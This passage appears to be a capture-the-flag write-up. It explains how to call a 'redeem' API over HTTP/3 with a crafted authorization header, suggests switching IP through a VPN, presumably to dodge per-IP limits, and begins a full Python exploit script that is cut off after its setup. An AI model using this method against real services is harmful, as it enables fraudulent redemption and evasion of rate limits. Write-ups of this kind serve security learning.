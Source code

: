 
### Redeem

Like the register api, the redeem api also requires application/json data. It also includes an authorization header to find the user to add money.

![image](https://hackmd.io/_uploads/HkF3lpWexx.png)

![image](https://hackmd.io/_uploads/BJcol6blxg.png)

The redeem function can be used as

```python
async def redeem(username, password, url: str, debug: bool=False):
    code = b'"eW91IHRoaW5rIHlvdSdyZSBzcGVjaWFsIGJlY2F1c2UgeW91IGtub3cgaG93IHRvIGRlY29kZSBiYXNlNjQ/"'
    body = code
    auth = '{"username":"uwu","password":"pwp"}'
    auth = auth.replace('uwu', username)
    auth = auth.replace('pwp', password)
    headers = {
        'authorization': auth,
        "content-length": str(len(body)),
        "content-type": "application/json",
    }
    resp, resp_headers = await send_request(url + "redeem", "POST", content=body, headers=headers)
    return resp, resp_headers
```

### Change IP

To change IP there are many programs to do that. For me, I prefer [Warp](https://developers.cloudflare.com/warp-client/), which is free and secure. Moreover you can use other VPN programs like ProtonVPN, Windscribe, etc.

## Full exploit script

```python
import asyncio
import ssl
from collections import deque, OrderedDict
from urllib.parse import urlparse
from aioquic.asyncio import connect
from aioquic.asyncio.protocol import QuicConnectionProtocol
from aioquic.h3.connection import H3_ALPN, H3Connection
from aioquic.h3.events import HeadersReceived, DataReceived, H3Event
from aioquic.quic.configuration import QuicConfiguration
from aioquic.quic.events import StreamDataReceived, ConnectionIdIssued
from typing import Deque, Dict, Tuple
import argparse
import random

class Config:
    DEFAULT_PORT = 443
    DEFAULT_TIMEOUT = 30
counter=0

class H3ClientProtocol(QuicConnectionProtocol):
    def __init__(self, *args, **kwargs):
        self.debug = kwargs.pop("debug", None)
        self.authority = kwargs.pop("authority", None)
        super().__init__(*args, **kwargs)
        self._http = H3Connection(self._quic)
        self._request_events: Dict[int, Deque[H3Event]] = {}
        self._request_waiter: Dict[int, asyncio.Future[Deque[H3Event]]] = {}
```